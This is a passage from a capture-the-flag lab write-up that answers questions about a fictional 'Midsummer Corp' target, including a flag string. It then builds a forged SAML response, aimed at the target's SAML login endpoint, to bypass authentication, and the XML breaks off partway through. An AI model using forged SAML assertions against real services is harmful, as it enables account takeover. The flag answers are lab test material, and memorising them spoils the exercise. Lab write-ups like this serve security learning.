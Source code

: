 The first part of url we can find in the main site `10.10.116.151` in the `<a>` tag:

```html 
<a href="https://files.midsummer.corp.local" target="_blank" rel="noreferrer noopener" class="entity-name">Midsummer Corp</a>
```

<br>
<br>

## 6. What should be Issuer set to in SAML Response?
Answer: `http://idp.midsummer.corp`

In the mail from Twardowski to Boruta we can find sentence:
`For some reason http://idp.midsummer.corp stopped working lately and I could not bring it back online.`

<br>
<br>

## 7. What is the content of the Fern_flower_ritual_shard5.txt file in Twardowski's account?

Answer: `Midsummer_Corp{Look_f0r_th3_fern_w1th_silv3r_l3av3s}`


We must create saml response. I got from the Internet example of a saml response.

``` xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ID="_8e8dc5f69a98cc4c1ff3427e5ce34606fd672f91e6" Version="2.0" IssueInstant="2014-07-17T01:01:48Z" Destination="http://10.10.116.151/apps/user_saml/saml/acs" InResponseTo="ONELOGIN_4fee3b046395c4e751011e97f8900b5273d56685">
  <saml:Issuer>http://idp.midsummer.corp</saml:Issuer>
  <samlp:Status>
    <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
  </samlp:Status>
  <saml:Assertion xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xs="http://www.w3.org/2001/XMLSchema" ID="_d71a3a8e9fcc45c9e9d248ef7049393fc8f04e5f75" Version="2.0" IssueInstant="2014-07-17T01:01:48Z">
    <saml:Issuer>http://idp.midsummer.corp</saml:Issuer>
    <saml:Subject>
      <saml:NameID SPNameQualifier="http://10.10.116.151/apps/user_saml/saml/metadata" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient">_ce3d2948b4cf20146dee0a0b3dd6f69b6cf86f62d7</saml:NameID>
      <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <saml:SubjectConfirmationData NotOnOrAfter="2024-01-18T06:21:48Z" Recipient="http://10.10.116.151/apps/user_saml/saml/acs" InResponseTo="ONELOGIN_4fee3b046395c4e751011e97f8900b5273d56685"/>
      </saml:SubjectConfirmation>
    </saml:Subject>
    <saml:Conditions NotBefore="2014-07-17T01:01:18Z" NotOnOrAfter="2024-01-18T06:21:48Z">
      <saml:AudienceRestriction>
        <saml:Audience>http://10.10.116.151/apps/user_saml/saml/metadata</saml:Audience>
      </saml:AudienceRestriction>
    </saml:Conditions>
    <saml:AuthnStatement AuthnInstant="2014-07-17T01:01:48Z" SessionNotOnOrAfter="2024-07-17T09:01:48Z" SessionIndex="_be9967abd904ddcae3c0eb4189adbe3f71e327cf93">
      <saml:AuthnContext>
        <saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
      </saml:AuthnContext>
    </saml:AuthnStatement>
    <saml:AttributeStatement>
      <saml:Attribute Name="uid" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
        <saml:AttributeValue xsi:type="xs:string">test</saml:AttributeValue>
      </saml:Attribute>
```